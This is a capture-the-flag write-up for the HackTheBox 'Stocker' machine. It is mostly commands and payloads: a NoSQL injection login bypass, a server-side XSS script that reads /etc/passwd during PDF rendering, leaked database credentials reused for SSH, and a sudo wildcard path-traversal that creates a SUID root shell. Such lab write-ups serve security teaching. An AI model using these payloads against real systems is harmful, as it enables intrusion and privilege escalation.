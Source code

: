 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)

### Recon

#### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.196
nmap -p 22,80 -sCV 10.10.11.196
```
- Open Ports: 22 [SSH](SSH), 80 [HTTP](HTTP)
- Hostname Redirects to: `stocker.htb`
- Added `stocker.htb` and `dev.stocker.htb` to `/etc/hosts`

#### Subdomain Discovery
```bash
ffuf -u http://10.10.11.196 -H "Host: FUZZ.stocker.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```
- Found `dev.stocker.htb`

#### Web Enumeration
- `stocker.htb` is a static site
- `dev.stocker.htb` is an Express.js application with a login form

### Shell as angoose

#### NoSQL Injection Auth Bypass
```json
{"username": {"$ne": "0xdf"}, "password": {"$ne":"0xdf"}}
```
- Logs in successfully due to likely NoSQL-based auth.

#### PDF File Read via Server-Side XSS (SSXSS)
- Purchase items and manipulate `title` field in basket JSON.
- Injected JS payload:
```js
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```
- Retrieved `/etc/passwd` and `/var/www/dev/index.js`

#### Found MongoDB URI
```js
'mongodb://prod_user:IHeardPassphrasesArePrettySecure@localhost/prod?authSource=admin&w=1'
```
- Tried SSH with these creds: `ssh angoose@stocker.htb`

#### Gained access:
```bash
sshpass -p 'IHeardPassphrasesArePrettySecure' ssh angoose@stocker.htb
```

### Shell as root

#### Sudo Rights
```bash
sudo -l
(ALL) /usr/bin/node /usr/local/scripts/*.js
```
- Scripts are owned by root and unreadable, but wildcard allows path traversal

#### Exploiting Path Traversal in sudo
```javascript
// /dev/shm/0xdf.js
require('child_process').exec('cp /bin/bash /tmp/0xdf; chown root:root /tmp/0xdf; chmod 4777 /tmp/0xdf')
```
```bash
sudo node /usr/local/scripts/../../../dev/shm/0xdf.js
/tmp/0xdf -p
```

#### Gained Root Access
```bash
/tmp/0xdf -p
cat /root/root.txt
```

---

### Summary
- NoSQL Injection for initial login
- Server-Side XSS to read files from the host
- Exfiltrated DB credentials to access SSH
- Wildcard misconfiguration in sudo allows path traversal to arbitrary root shell

Rooted `Stocker` 🎉
